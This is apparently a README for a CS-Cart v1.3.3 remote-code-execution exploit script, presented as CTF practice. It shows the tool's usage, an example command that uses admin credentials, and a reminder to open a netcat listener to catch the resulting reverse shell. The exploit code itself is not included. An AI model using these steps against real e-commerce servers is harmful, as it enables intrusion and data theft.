 ## Cs-Cart v1.3.3 RCE
- [CS-Cart Multi-Vendor](https://www.cs-cart.com/) is a standalone eCommerce marketplace platform that allows you to create a marketplace.
- This exploit has been designed to practice on CTF vulnerable machines running an outdated version of CS-Cart
## USAGE:
```
❯ python3 Cs-Cart.py -h
usage: Cs-Cart.py [-h] -U URL -u USERNAME -p PASSWORD -L IP -P PORT

CS-Cart RCE Exploit v1.3.3

options:
  -h, --help            show this help message and exit
  -U URL, --url URL     Remote host URL where CS-Cart is located
  -u USERNAME, --username USERNAME
                        CS-Cart Admin username
  -p PASSWORD, --password PASSWORD
                        CS-Cart Admin password
  -L IP, --ip IP        Local IP address for reverseshell
  -P PORT, --port PORT  Local port to received reverseshell
```
## EXAMPLE:
```
❯ python3 Cs-Cart.py -U http://192.168.199.39 -u admin -p admin -L 192.168.45.161 -P 443
```
![cs-cart1](https://github.com/user-attachments/assets/48651990-ed48-4bc6-b407-9922bedd2db4)

**[!] Do not forget to open a netcat listener on the port specified in the exploit to recieved the revershell.**
